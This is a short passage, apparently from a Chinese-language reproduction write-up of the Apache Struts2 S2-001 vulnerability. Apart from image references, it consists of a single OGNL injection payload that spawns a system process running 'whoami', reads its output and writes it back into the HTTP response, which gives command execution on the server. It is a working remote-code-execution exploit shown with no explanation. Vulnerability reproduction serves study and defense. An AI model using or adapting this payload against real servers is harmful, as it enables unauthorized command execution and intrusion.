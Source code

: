 <img src="pic/struts2_s2-001_10.png">

于是有：
```java
%{#p=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).start(),
#is=#p.getInputStream(),
#br=new java.io.BufferedReader(new java.io.InputStreamReader(#is)),
#arr=new char[50000],
#br.read(#arr),
#str=new java.lang.String(#arr),
#writer=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),
#writer.println(#str),
#writer.flush(),
#writer.close()}
```
